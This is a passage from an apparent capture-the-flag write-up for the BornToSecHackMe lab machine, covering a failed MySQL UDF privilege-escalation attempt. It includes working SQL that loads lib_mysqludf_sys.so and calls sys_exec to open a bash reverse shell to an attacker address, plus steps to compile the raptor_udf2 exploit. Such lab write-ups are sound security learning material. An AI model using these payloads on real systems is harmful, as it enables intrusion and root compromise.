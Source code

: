 ```
firefart@BornToSecHackMe:~#
```
### Failed Attempts
#### Get Root from MySQL - A Dead End

According to [this article on Medium](https://rootrecipe.medium.com/mysql-to-system-root-ad8edc305d2b), a possibility would have been to inject the [lib_mysqludf_sys.so](https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/mysql/linux/64) file as [blob](https://www.mysqltutorial.org/mysql-basics/mysql-blob) in a table to open a file in the `mysql` library in order to be able to [create a function](https://dev.mysql.com/doc/refman/8.0/en/create-function-loadable.html) allowing us to open a shell as user `root`. Unluckily, however, our `mysql` user has no permissions to write in the directory `/usr/lib/mysql/plugin`.

We transfer the file to the `/tmp` directory of the host machine:
```shell
┌──(fab㉿kali)-[~]
└─$ scp ./lib_mysqludf_sys.so thor@192.168.56.101:/tmp/
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
thor@192.168.56.101's password:
lib_mysqludf_sys.so                                                                   100% 3200     1.7MB/s   00:00

┌──(fab㉿kali)-[~]
└─$
```
Them we open a listener and insert the following code in the "SQL" tab of PHPMyAdmin:
```
use mysql;
create table carrot (line blob);
insert into carrot values(load_file('/tmp/lib_mysqludf_sys.so'));
select * from carrot into dumpfile '/usr/lib/mysql/lib_mysqludf_sys.so';
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
select sys_exec('bash -i >& /dev/tcp/192.168.119.135/4444 0>&1');
```

The same method may apply to the [`raptor_udf2.so`](https://www.exploit-db.com/exploits/1518) file. We need to download and compile the [raptor_udf2.c](https://github.com/1N3/PrivEsc/blob/master/mysql/raptor_udf2.c) file:
```shell
┌──(fab㉿kali)-[~]
└─$ gcc -g -c raptor_udf2.c

┌──(fab㉿kali)-[~]
└─$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

┌──(fab㉿kali)-[~]
└─$ scp raptor_udf2.so thor@192.168.56.101:/tmp/
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
thor@192.168.56.101's password:
```